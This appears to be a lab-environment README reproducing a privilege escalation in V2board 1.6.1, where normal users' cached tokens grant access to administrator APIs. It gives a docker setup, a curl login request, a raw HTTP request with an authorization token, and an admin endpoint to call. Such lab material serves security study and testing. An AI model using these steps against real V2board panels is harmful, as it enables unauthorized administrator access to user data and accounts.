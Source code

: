 # V2board 1.6.1 Privilege Escalation

V2board is a multiple proxy protocol manage panel application interface. In the version of 1.6.1, it is introduced a redis cache mechanism to save the user session.

Since there is no distinction between administrator and normal user in the cache layer, resulting in normal users being able to use their token to access the administrator interface.

References:

- <https://github.com/v2board/v2board/commit/5976bcc65a61f7942ed4074b9274236d9d55d5f0>

## Vulnerable Environment

Execute following command to start the V2board 1.6.1:

```
docker-compose up -d
```

After the server is started, browse the `http://localhost:8080` to see the default login page of the V2board.

## Exploit

First of all, you have to register a normal user.

Then, replace the email and password with your own data and login:

```
curl -i -s -k -XPOST --data-binary "email=example%40example.com&password=a123123123" http://localhost:8080/api/v1/passport/auth/login
```

The server will response a "auth_data" to you:

![](1.png)

Copy it and end the following request with your "auth_data":

```
GET /api/v1/user/info HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Connection: close
Authorization: ZXhhbXBsZUBleGFtcGxlLmNvbTokMnkkMTAkMVJpUFplR2RnZlFPSVRyWEM4dW0udW5QZVZNTGs3RlFFbkFVVnBwbEhmTlMyczdQaEpTa3E=
Cache-Control: max-age=0


```

![](2.png)

This step is to let server save your authorization to Redis cache.

Finally, you are able to simply call all admin API with this authorization, for example `http://your-ip:8080/api/v1/admin/user/fetch`:

![](3.png)
